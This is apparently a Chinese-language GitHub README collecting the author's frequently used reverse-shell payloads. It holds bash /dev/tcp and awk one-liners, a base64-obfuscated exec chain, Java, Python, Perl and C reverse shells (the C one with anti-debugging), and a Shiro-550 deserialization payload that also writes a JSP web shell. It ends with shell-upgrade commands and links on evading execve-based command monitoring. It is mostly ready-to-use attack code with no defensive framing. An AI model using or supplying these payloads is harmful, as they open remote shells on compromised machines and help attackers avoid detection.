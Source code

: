 # ReverseShell
自己经常使用的反弹shell命令
## bash
```
bash -c {echo,xxx}|{base64,-d}|{bash,-i}
bash -c "bash -i >& /dev/tcp/ip/port  0>&1"
bash -i 5<>/dev/tcp/host/port 0>&5 1>&5

awk 'BEGIN{s="/inet/tcp/0/ip/port";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
```
## java
```java
try{
    Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/ip/2333;cat <&5 | while read line; do $line 2>&5 >&5; done"});
}catch (IOException e){
    try{
        Runtime.getRuntime().exec(new String[]{"cmd", "/c", "calc"});
    }catch (IOException ee){
    }
}
```
### shiro 550
反弹shell
https://bkfish.gitee.io/2020/04/24/Apache-Shiro-1-2-4%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2016-4437%EF%BC%89%E5%A4%8D%E7%8E%B0%E9%81%87%E5%88%B0%E7%9A%84%E5%9D%91/


https://mp.weixin.qq.com/s/zCe_O37rdRqgN-Yvlq1FDg

```
cc2 
bash -c bash${IFS}-i${IFS}>&/dev/tcp/XXXXX/XX<&1

```
并且执行命令
```bash
sh -c $@ | sh . echo `echo shell>shell.jsp`
```

## python
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("ip",4444))
os.dup2(s.fileno(),0) 
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
## perl
```
perl -e 'use Socket;$i="ip";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
## c
来自m3师傅
```c
#include <stdio.h>
#include <unistd.h>
#include <sys/wait.h>
#include <stdlib.h>


#include <sys/ptrace.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <sys/socket.h>

__attribute__((constructor)) void debugCheck()
{
    if(ptrace(PTRACE_TRACEME,0,1,0) == -1)
    {
        printf("debug found");
        exit(0);
    }
}

int main(int argc,char** argv)
{
    int status;
    printf("Main Process:%d\n",getpid());

    if(fork() == 0)
    {
        printf("Child Process:%d\n",getpid());
        struct sockaddr_in addr;
        addr.sin_family = AF_INET;
        addr.sin_addr.s_addr = inet_addr("127.0.0.1");
        addr.sin_port = htons(2333);
        int fd = socket(AF_INET,SOCK_STREAM,0);
        if(!connect(fd,(const struct sockaddr *)&addr,sizeof(addr)))
        {
            printf("connect success\n");
        }
        
        dup2(fd,0); 
        dup2(fd,1); 
        dup2(fd,2); 
        char* argv[] = {"/bin/bash",NULL};
        execve("/bin/bash",argv,'\0'); 
    }
    pid_t child_pid = wait(&status);
    printf("Child PID:%d Terminate Status:%d\n",child_pid,WEXITSTATUS(status));

}
```

## 交互式
```
python -c 'import pty;pty.spawn("/bin/bash")'
echo os.system('/bin/bash')
/bin/sh -i
```
[完全交互式Shell](https://www.jianshu.com/p/e7202cb2c3dd)


## 逃逸基于execve的命令监控的反弹shell

https://grugq.github.io/docs/ul_exec.txt

[无"命令"反弹shell-逃逸基于execve的命令监控(上)](https://mp.weixin.qq.com/s/rcPnXJrjcFeAWMnXsyJDPA)

[如何改变进程名称](https://mp.weixin.qq.com/s?__biz=MzkyMDIxMjE5MA==&mid=2247484350&idx=1&sn=14d5423fe226e9716eee2f4eaf58e62a&chksm=c197040ff6e08d19c5c2877775777054a7917db0e743c6abe1187782639e3cc3f20f02738b7d&mpshare=1&scene=23&srcid=0131L4KTJKxOsz0ATdwjU24c&sharer_sharetime=1643560116868&sharer_shareid=33a823b10ae99f33a60db621d83241cb#rd)

## 原理
+ [Reverse Shell 杂谈](https://mp.weixin.qq.com/s?__biz=MzA3MzU1MDQwOA==&mid=2247483909&idx=1&sn=6c7c89154552842ce27a871b7557ee0e&chksm=9f0c1d22a87b94340d71e77fe6c7c935eda1f83142faf7a43b32246b1826f8c3281fd75235e6&scene=178&cur_album_id=1465824885800009730#rd)
